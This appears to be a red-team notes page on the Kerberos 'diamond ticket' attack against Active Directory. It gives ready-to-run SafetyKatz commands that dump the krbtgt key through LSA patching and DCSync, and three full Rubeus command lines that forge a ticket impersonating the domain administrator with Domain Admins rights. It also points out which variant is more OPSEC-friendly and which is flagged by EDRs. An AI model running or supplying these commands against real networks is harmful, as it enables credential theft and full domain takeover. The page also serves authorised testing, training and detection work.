 >**ℹ️ Info:**
>More OPSEC-friendly than golden ticket since we're modifying a valid ticket instead of forging it.

# Methodology
>1. Retrieve the AES-256 key of the `krbtgt` account.
>2. Modify and inject the ticket.
>3. Impersonate any user.

---
# Binaries
>**ℹ️ Info:**
>
> Remember to follow the [binaries methodology](../00%20-%20Miscellaneous/01-%20Methodology.md#Binaries).

## SafetyKatz

**Retrieve the AES-256 key of the `krbtgt` account:**
```cmd
SafetyKatz.exe '"lsadump::lsa /patch"'
SafetyKatz.exe '"lsadump::dcsync /user:contoso\krbtgt"'
```

## Rubeus
**Create a diamond ticket:**
```cmd
# With an NTLM hash (Usually flagged by EDRs)
Rubeus.exe diamond /krbkey:32ED87BDB5FDC5E9CBA88547376818D4 /user:studentuserx /password:studentuserxpassword /enctype:rc4 /ticketuser:administrator /domain:us.contoso.local /dc:US-DC.us.contoso.local /ticketuserid:500 /groups:512 /createnetonly:C:\Windows\System32\cmd.exe /show /ptt

# With an AES-256 key (Admin cmd required)
Rubeus.exe diamond /krbkey:5e3d2096abb01469a3b0350962b0c65cedbbc611c5eac6f3ef6fc1ffa58cacd5 /user:studentuserx /password:studentuserxpassword /enctype:aes /ticketuser:administrator /domain:us.contoso.local /dc:US-DC.us.contoso.local /ticketuserid:500 /groups:512 /createnetonly:C:\Windows\System32\cmd.exe /show /ptt

# With access to a domain account
Rubeus.exe diamond /krbkey:5e3d2096abb01469a3b0350962b0c65cedbbc611c5eac6f3ef6fc1ffa58cacd5 /tgtdeleg /enctype:aes /ticketuser:administrator /domain:us.contoso.local /dc:US-DC.us.contoso.local /ticketuserid:500 /groups:512 /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

where:
- `/krbkey` is the AES-256 key or RC4 hash of the krbtgt account.
- `/user` is the username to steal a TGT from.
- `/password` is that user's password.
- `/enctype` specifies AES or RC4 encryption.
- `/ticketuser` is who we impersonate.
- `/domain` is the target domain name.
- `/dc` is the domain controller to use.
- `/ticketuserid` is the RID of the user we're impersonating (500 for admin).
- `/groups` is the RID of the group we add (512 for Domain Admins).
